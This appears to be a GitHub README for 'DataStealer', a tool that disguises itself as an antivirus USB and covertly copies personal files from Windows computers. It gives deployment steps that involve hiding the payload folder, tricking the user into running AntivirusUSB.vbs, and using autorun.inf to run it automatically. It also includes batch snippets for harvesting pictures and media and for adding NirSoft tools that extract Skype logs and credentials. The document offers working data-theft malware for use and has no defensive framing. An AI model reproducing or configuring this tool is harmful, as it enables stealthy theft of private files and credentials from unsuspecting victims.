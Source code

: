 # DataStealer

## Information
DataStealer pretends be a Antivirus USB to gather personal information in Windows systems.

## Intructions
Just copy all from DataStealer folder and paste in USB device. Hide **"data"** folder and **"run.bat"**. When you conect USB device in Windows system just doble click in AntivirusUSB.vbs and DataStealer copy all files stealthily from pc.

***NOTE: You can use autotun.inf for auto-execute .vbs file but it only works in Windows Vista and Windows XP***

[**Autorun.inf**](wikipedia.org/wiki/AutoRun "Wikipedia")
>[AutoRun]
>
>Open=AntivirusUSB.vbs

## Configuration

### Folders
If you want you can add more lines with folders in **"run.bat"** for gather information

Like this:
>REM ############ Formats ############
>
>FOR /R **"%userprofile%\Pictures\"** %%a IN (%rest%) DO (copy /y "%%a" "%%#:\data\capt\%USERNAME%\")
>
>REM #################################

Replace **"%userprofile%\Pictures\"** for any folder.

### Formats
If you want you can add more formats in **"run.bat"** of files to gather

Like this:
>REM ############ Formats ############
>
>set rest= \*.jpg,\*.png,\*.mp4,\*.3gp,\*.wav,**\*.avi**
>
>REM #################################

### More funcionalities (Nirsoft)
NirSoft web site provides a unique collection of small and useful freeware utilities, all of them developed by Nir Sofer. 

For more funcionalities, go to [nirsoft.net](www.nirsoft.net "Nirsoft"), download software and put in "data/soft/" folder

Later add a line for each software in **"run.bat"**

Like this:
>REM ############ Nirsoft ############
>
>start data/soft/**SkypeLogView**.exe /shtml "data\pss\%USERNAME%\\**SkypeLogView**.html"
>
>REM #################################

Replace **SkypeLogView** in both places with the software name

# Download
[Releases](https://github.com/Kevinsillo/datastealer/releases)